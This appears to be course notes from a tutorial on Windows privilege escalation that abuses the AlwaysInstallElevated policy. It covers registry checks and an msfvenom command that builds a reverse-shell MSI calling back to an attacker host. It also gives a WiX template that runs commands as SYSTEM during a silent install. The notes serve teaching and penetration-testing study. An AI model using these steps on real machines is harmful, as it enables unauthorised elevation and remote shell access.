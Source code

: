 ## Always Install with Elevated Privileges

The "Always Install with Elevated Privileges" option is a policy setting that can allow users to install software with elevated permissions, even if not administrators.

The problem is that arbitrary code can be executed during the installation of a software.

Thus, this option represents a significant security risk, as it introduces the ability to execute arbitrary code with higher privileges.

## Configuration Check

To check if the `Always with Elevated Privielges` is enabled, you can either use Group Policy Editor (`gpedit.msc`)

```powershell
Computer Configuration -> Administrative Templates
                       -> Windows Components
                       -> Windows Installer
                       -> Always install with elevated privileges
```

```powershell
User Configuration -> Administrative Template
                   -> Windows Components
                   -> Windows Installer
```

---

You can also do it from the command line

```powershell
Get-ItemProperty -Path "HKLM:\Software\Policies\Microsoft\Windows\Installer" -Name AlwaysInstallElevated
```


```powershell
Get-ItemProperty -Path "HKCU:\Software\Policies\Microsoft\Windows\Installer" -Name AlwaysInstallElevated
```

For the config to work both of these values have to be 1.
```powershell
Set-ItemProperty -Path 'HKLM:\Software\Policies\Microsoft\Windows\Installer' -Name 'AlwaysInstallElevated' -Value 1
```

```powershell
Set-ItemProperty -Path 'HKCU:\Software\Policies\Microsoft\Windows\Installer' -Name 'AlwaysInstallElevated' -Value 1
```

## Exploitation

If the `Always Install with Elevated Privileges` is configured, it is possible to obtain privilege escalation by producing a malicious Microsoft Software Installer package (`msi`) and install it.

- Generate malicious MSI
```powershell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.122.1 LPORT=7777 -f msi > sample.msi
```

Execute it
```powershell
msiexec /quiet /qn /i sample.msi
```

## Extra: Create Custom MSI

Instead of using `msfvenom`, you can use `wixtoolset` to produce an `msi` file that will execute custom code upon execution.

- Download wix v3.14.1
```powershell
https://github.com/wixtoolset/wix3/releases/tag/wix3141rtm
```

- Install the program
```powershell
set PATH=%PATH%;"C:\Program Files (x86)\WiX Toolset v3.14\bin"
```

- Create a sample project
```xml
<?xml version="1.0"?>
     <Wix xmlns="http://schemas.microsoft.com/wix/2006/wi">
       <Product Id="*" UpgradeCode="12345678-1234-1234-1234-111111111111" Name="Example Product Name"
     	   Version="0.0.1" Manufacturer="@_xpn_" Language="1033">
         <Package InstallerVersion="200" Compressed="yes" Comments="Windows Installer Package"/>
         <Media Id="1" Cabinet="product.cab" EmbedCab="yes"/>
         <Directory Id="TARGETDIR" Name="SourceDir">
           <Directory Id="ProgramFilesFolder">
     	<Directory Id="INSTALLLOCATION" Name="Example">
     	  <Component Id="ApplicationFiles" Guid="12345678-1234-1234-1234-222222222222">
     	  </Component>
     	</Directory>
           </Directory>
         </Directory>
         <Feature Id="DefaultFeature" Level="1">
           <ComponentRef Id="ApplicationFiles"/>
         </Feature>
         <Property Id="cmdline">cmd.exe /C whoami /groups > C:\Users\Quickemu\Desktop\test.txt </Property>
         <CustomAction Id="Stage1" Execute="deferred" Directory="TARGETDIR" ExeCommand='[cmdline]' Return="ignore" Impersonate="no"/>
         <CustomAction Id="Stage2" Execute="deferred" Script="vbscript" Return="check">
           fail_here
         </CustomAction>
         <InstallExecuteSequence>
           <Custom Action="Stage1" After="InstallInitialize"></Custom>
           <Custom Action="Stage2" Before="InstallFiles"></Custom>
         </InstallExecuteSequence>
       </Product>
     </Wix>
```
- Save as `sample.wxs`

- Create the MSI package
```powershell
# from wsx into wixobject
candle sample.wxs

# from wiboxjet into MSI
light.exe sample.wixobj
```

- Execute the package
```powershell
.\sample.msi
msiexec /quiet /qn /i sample.msi
```

---
## References 

WiX Toolset: https://wixtoolset.org/

How do I modify the WIX installer to run as admin (elevated) for my per-machine MSI file?: https://www.add-in-express.com/forum/read.php?FID=5&TID=13992

Course Material: https://github.com/LeonardoE95/yt-en/blob/main/src/2024-11-27-windows-privesc-always-install-elevated/content/notes.txt


